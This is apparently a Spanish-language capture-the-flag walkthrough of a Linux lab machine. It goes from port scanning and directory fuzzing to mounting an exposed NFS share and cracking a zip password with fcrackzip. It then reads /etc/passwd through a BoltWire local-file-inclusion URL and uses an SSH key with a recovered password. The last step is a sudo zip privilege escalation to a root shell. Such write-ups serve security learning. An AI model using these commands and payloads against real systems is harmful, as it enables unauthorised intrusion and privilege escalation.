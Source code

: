 ## Summary

Tags: #Linux #Montura #Fuzzing #FCrackZip #LFI  

- IP -> 192.168.68.1
- Ports -> TCP (22,80,111,2049,8080,42417,45263), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> SSH
    - 80 -> HTTP
    - 8080 -> HTTP 

## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts
```

```bash
❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

Miramos la web, por sus dos puertos, el 80 y el 8080 'php'

```bash
❯ ffuf -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://192.168.68.1/FUZZ -v 
```

```bash
❯ ffuf -w /usr/share/Seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://192.168.68.1:8080/FUZZ -v 
```

```bash
❯ showmount -e 192.168.68.1               # Para ver si nos muestra informacion de una montura
```
Nos muestra la de **/srv/nfs**

```bash
❯ mkdir /mnt/dev                          # Creamos un dir en donde colocaremos el archivo  
```

```bash
❯ mount -t nfs 192.168.68.1:/svr/nfs /mnt/dev    # Le diremos que la monturta nos las coloque en el dir que hemos creado
```
Nos muestra un archivo **save.zip**

```bash
❯ unzip save.zip                           # Al momento de hacerle unzip nos pide una passwd que no tenemos,  pero nos muestra que adentro hay un archivo id_rsa y un .txt
```

Usaremos la siguiente herramienta para poder crackear el .zip
```bash
❯ fcrackzip -v -u -D -p /usr/share/worlists/rockyou.txt save.zip

	# v = Verbose
	# u = Unzip
	# D = Dictionary attack
	# p = File to attack 'save.zip'
```
Nos regresa la passwd: java101

Ahora si podemos descomprimir el archivo 
* Encontramos en el .zip el nombre de un usuario 'jp' y ahora podemos usar el ssh para poder entrar a la maquina, ya que tenemos el 'id_rsa'

```bash
❯ ssh -i id_rsa jp@192.168.68.1                         # Nos conectamos por ssh teniendo un id_rsa con privilegio 600
```
Pero no funciona porque nos pide una passwd y no es la misma que habiamos encontrado. 

Ahora miramos los dir en la web que encontramos para el puerto **8080** que son **/dev/**
Y para el puerto **80, /app/** en donde encontramos varios folders, nos metemos a la carpeta de **config** y despues a **config.yml** y lo descargamos. 

Ahi encontramos un usuario y passwd **'bolt:I_love_java'**

Buscamos en Google **'BoltWire exploit'** y nos sale que hay un **LFI**
```bash
❯ http://192.168.68.1:8080/dev/index.php?p=action.search&action=../../../../../../../etc/passwd
```
Ahi encontramos al usuario **'jp = jeanpaul'**

## User

```bash
❯ ssh -i id_rsa jeanpaul@192.168.68.1                         # Nos conectamos por ssh teniendo un id_rsa con privilegio 600
```
Nos pide una 'passphrase' y colocamos la passwd que habiamos encontrado 'I_love_java'

```bash
❯ sudo -l                     # Para ver si tenemos privilegios en el Sudoers (l=ele), que podamos ejecutar comandos como (root) NOPASSWD
```
Encontramos que podemos ver **/usr/bin/zip** en donde no es necesario la passwd.

Ahora buscamos en la siguiente pagina:
GTFOBins [GTFOBins](https://gtfobins.github.io/)

## Root

```bash
TF=$(mktemp -u)                               # Encontramos sudo 'zip'
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```
Y ahora somos root y buscamos la flag 'flag.txt'